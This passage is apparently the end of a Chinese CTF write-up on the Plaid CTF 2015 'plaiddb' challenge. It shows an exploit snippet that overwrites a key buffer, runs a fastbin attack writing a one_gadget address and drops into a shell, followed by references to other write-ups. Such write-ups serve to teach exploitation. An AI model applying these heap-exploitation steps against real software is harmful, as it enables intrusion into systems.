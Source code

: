 ```
DEL("KEY1")
PUT("KEY1",1000,KEY1[1:385]+p64(address)+KEY1[393:])

#fastbin attack
PUT("Fill",0x60,"F"*0x60)#malloc fake_chunk
PUT("Fill2",0x60,"F"*(35-16)+p64(one_gadget)+"F"*(0x60-(35-16)-8)) #any address write

DEL("GetSHELL")
p.interactive()
```



## 参考文献:

[1]plaid ctf 2015 plaiddb.0x3f97<br>[https://0x3f97.github.io/pwn/2018/01/27/plaidctf2015-plaiddb/[OL/DB],2018-1-27](https://0x3f97.github.io/pwn/2018/01/27/plaidctf2015-plaiddb/%5BOL/DB%5D,2018-1-27)<br>
[2]Plaid CTF WriteUP.angelboy<br>[http://angelboy.logdown.com/posts/262325-plaid-ctf-2015-write-up%5D[OL/DB],2015-4-28](http://angelboy.logdown.com/posts/262325-plaid-ctf-2015-write-up%5D%5BOL/DB%5D,2015-4-28)

[3]how2heap.Mutepig[http://blog.leanote.com/post/mut3p1g/how2heap[OL/DB](http://blog.leanote.com/post/mut3p1g/how2heap%5BOL/DB)]
